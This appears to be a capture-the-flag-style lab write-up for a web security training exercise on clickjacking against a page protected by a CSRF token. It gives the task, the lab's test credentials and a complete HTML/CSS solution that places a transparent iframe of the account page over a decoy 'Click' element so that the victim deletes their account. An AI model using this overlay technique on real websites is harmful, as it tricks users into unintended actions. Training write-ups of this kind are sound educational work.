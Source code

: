# Basic clickjacking with CSRF token protection
APPRENTICE

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: wiener:peter

## Решение
```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>
Click
</div>
<iframe src="https://0a35007903e8d36080b23f7b00ee00ff.web-security-academy.net/my-account"></iframe>
```
